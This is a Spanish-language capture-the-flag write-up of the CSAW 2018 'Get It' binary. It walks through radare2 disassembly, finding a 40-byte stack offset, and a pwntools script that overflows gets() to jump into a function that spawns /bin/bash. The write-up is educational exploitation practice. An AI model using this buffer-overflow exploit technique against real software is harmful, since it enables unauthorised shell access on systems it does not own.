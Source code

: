 ```yaml
---
layout: post
title: Get It - Nightmare
tags: [ctf, rev, nightmare]
---
```


**Get It** \\
Csaw Quals 2018 Get It

## Intro

Este desafío es prácticamente igual que el anterior ([Warmup](../nightmare-warmup)), solo que en este caso obtendremos una shell. Recomiendo leer ese writeup primero ya que en este me saltaré los pasos similares.

## Analisis

### Checksec

**pwn checksec**:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

El binario es para arquitectura amd64 (64 bits). Tiene seguridad parcial (RELRO parcial) y carece de protección de "canary" en la pila, lo que puede dejarlo vulnerable a ataques de desbordamiento de búfer. Se ha habilitado la prevención de ejecución de código en el stack (NX). No se utiliza la ejecución aleatoria (No PIE), lo que podría hacerlo más susceptible a exploits.


### Radare2

Después de ejecutar checksec, abro el binario con **radare2** y listo las funciones junto con sus direcciones.

```
[0x7f290a22a360]> afl
0x004004c0    1 42           entry0
0x00400490    1 6            sym.imp.__libc_start_main
0x004004f0    4 50   -> 41   sym.deregister_tm_clones
0x00400530    4 58   -> 55   sym.register_tm_clones
0x00400570    3 28           sym.__do_global_dtors_aux
0x00400590    4 38   -> 35   entry.init0
0x00400670    1 2            sym.__libc_csu_fini
0x00400674    1 9            sym._fini
0x004005b6    1 17           sym.give_shell
0x00400480    1 6            sym.imp.system
0x00400600    4 101          sym.__libc_csu_init
0x004005c7    1 49           main
0x00400470    1 6            sym.imp.puts
0x004004a0    1 6            sym.imp.gets
0x00400438    3 26           sym._init
0x004004b0    1 6            sym..plt.got
[...]
```

Entre estas hay que destacar dos:
- main
- sym.give_shell

#### Main

```
[0x004005c7]> pdf
            ; DATA XREF from entry0 @ 0x4004dd
┌ 49: int main (int argc, char **argv);
│           ; var int64_t var_30h @ rbp-0x30
│           ; var int64_t var_24h @ rbp-0x24
│           ; var int64_t var_20h @ rbp-0x20
│           ; arg int argc @ rdi
│           ; arg char **argv @ rsi
│           0x004005c7      55             push rbp
│           0x004005c8      4889e5         mov rbp, rsp
│           0x004005cb      4883ec30       sub rsp, 0x30
│           0x004005cf      897ddc         mov dword [var_24h], edi    ; argc
│           0x004005d2      488975d0       mov qword [var_30h], rsi    ; argv
│           0x004005d6      bf8e064000     mov edi, str.Do_you_gets_it__ ; 0x40068e ; "Do you gets it??"
│           0x004005db      e890feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004005e0      488d45e0       lea rax, [var_20h]
│           0x004005e4      4889c7         mov rdi, rax
│           0x004005e7      b800000000     mov eax, 0
│           0x004005ec      e8affeffff     call sym.imp.gets           ; char *gets(char *s)
│           0x004005f1      b800000000     mov eax, 0
│           0x004005f6      c9             leave
└           0x004005f7      c3             ret
```

Lo interesante de esta función es que emplea la función **sym.imp.gets** para obtener la entrada del usuario. La cual es insegura porque no verifica los límites de un búfer al leer una cadena, lo que puede llevar a desbordamientos de búfer.

Esta vulnerabilidad nos permitirá sobreescribir la dirección de retorno de la función **main**.

#### Give_shell

```
[0x004005b6]> pdf
┌ 17: sym.give_shell ();
│           0x004005b6      55             push rbp
│           0x004005b7      4889e5         mov rbp, rsp
│           0x004005ba      bf84064000     mov edi, str._bin_bash      ; 0x400684 ; "/bin/bash"
│           0x004005bf      e8bcfeffff     call sym.imp.system         ; int system(const char *string)
│           0x004005c4      90             nop
│           0x004005c5      5d             pop rbp
└           0x004005c6      c3             ret
```

Esta función no tiene mucha complejidad. Al llamarla se ejecutará el comando "/bin/bash" mediante la función **sym.imp.system** obteniendo así una shell por lo que esta función será el objetivo.


## Exploit

Lo primero que necesito conocer es la distancia entre la entrada del usuario y la dirección de retorno que necesito sobreescribir. Para ello sigo los siguientes pasos:

1. Situo un breakpoint al final de la función **main**, justo antes de ejecutarse la instrucción "ret".
2. Busco en el stack la dirección de la entrada.
3. Debido a que me encuentro al final del **main**, el registro **rsp** apunta a la dirección que necesito sobreescribir por lo que solo debo restar las direcciones.

```
[0x7fcaebef1360]> dc
Do you gets it??
0xH3rshel
hit breakpoint at: 0x4005f7
[0x004005f7]> e search.in=dbg.stack
[0x004005f7]> / 0xH3rshel
Searching 9 bytes in [0x7fff4b1a4000-0x7fff4b1c5000]
hits: 1
0x7fff4b1c36b0 hit3_0 .7K0xH3rshel.
[0x004005f7]> ? rsp - 0x7fff4b1c36b0
int32   40
uint32  40
hex     0x28
octal   050
[...]
```

La distancia es de 0x28 (40) bytes.

Ahora solo tengo que hacer un script que envíe 0x28 bytes de padding y la dirección de **give_shell**.

```py
from pwn import *

target = process("./get_it")

payload = b"0"*0x28 # Padding, 40 = 0x28
payload += p64(0x004005ba) # Dirección dentro de give_shell

# Enviar payload
target.sendline(payload)

# Obtener shell
target.interactive()
```

Ejecuto el script y obtengo shell.

```
h3rshel@kali:~/Desktop/reversing$ python3 exploit.py
[+] Starting local process './get_it': pid 71431
[*] Switching to interactive mode
Do you gets it??
$ whoami
h3rshel
$
```

Página original: **[Nightmare](https://guyinatuxedo.github.io/)**.

